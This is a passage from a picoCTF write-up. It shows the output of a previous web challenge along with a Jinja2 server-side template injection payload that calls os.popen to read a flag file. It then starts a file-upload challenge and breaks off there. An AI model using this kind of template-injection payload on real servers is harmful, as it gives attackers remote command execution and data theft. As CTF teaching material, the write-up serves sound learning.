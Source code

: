 ```html
<!doctype html>
<h1 style="font-size:100px;" align="center">total 12
drwxr-xr-x 2 root root   32 Apr 12 10:09 __pycache__
-rwxr-xr-x 1 root root 1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root   58 Mar  6 19:44 **flag**
-rwxr-xr-x 1 root root  268 Mar  6 03:27 requirements.txt
</h1>
```

later,

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

---

## n0s4n1ty 1

### Challenge information

Challenge link: [https://play.picoctf.org/practice/challenge/482](https://play.picoctf.org/practice/challenge/482)

![_images\image.png](D:\s0c41dgvns.github.io\_images\picoEasyImages\image1.png)
_images\image%201.png
### Solution

The home page of the challenge site is like this with a simple file upload feature.

![_images\image.png](_posts/assets/picoEasyImages/image2.png)

Try uploading any file but not picture formats like JPG, PNG to check the security implementation of the developer.
